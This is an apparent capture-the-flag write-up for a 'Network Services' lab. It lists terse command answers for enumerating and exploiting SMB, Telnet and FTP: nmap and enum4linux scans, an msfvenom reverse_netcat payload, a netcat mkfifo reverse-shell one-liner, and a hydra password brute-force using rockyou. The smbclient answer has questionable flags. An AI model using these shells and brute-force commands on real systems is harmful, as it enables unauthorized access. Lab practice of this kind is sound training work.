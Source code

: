 # Network Services

> Nashia Holloway | MAy 8th, 2020

## Task 3 Enumerate SMB

**1. How many ports are open?**

```
nmap -sC -sV $IP -oN initial.nmap
```

**2-6**

```
enum4linux -a $IP
```

## Task 4 Exploiting SMB

**1. What would be the correct syntax to access an SMB share called "secret" as user "suit" on a machine with the IP 10.10.10.2 on the default port?**

```
smbclient //10.10.10.2/secret -u suit -p 445
```

**8. What is the smb.txt flag?**

```
ssh -i id_rsa cactus@$IP
```

## Task 6 Enumerating Telnet

**1. How many ports are open?**

```
nmap -A -p- $IP -oN telnet.nmap
```

**7. Usernames?**

```
telnet $IP 8012
```

## Task 7 Exploiting Telnet

```
msfvenom -p cmd/unix/reverse_netcat lhost=tun0 lport=1234 R
```
```
.RUN mkfifo /tmp/jaiaia; nc tun0 4444 0</tmp/jaiaia | /bin/sh >/tmp/jaiaia 2>&1; rm /tmp/jaiaia
```

## Task 8 Enumerating FTP

```
ftp $IP
ftp> username: anonymous
ftp> password: <ENTER>
```
There's a file there that gives us a clue to a username.

## Task 9 Exploit FTP

```
hydra -t 4 -l mike -P /usr/share/wordlists/rockyou.txt -vV 10.10.63.248 ftp
```

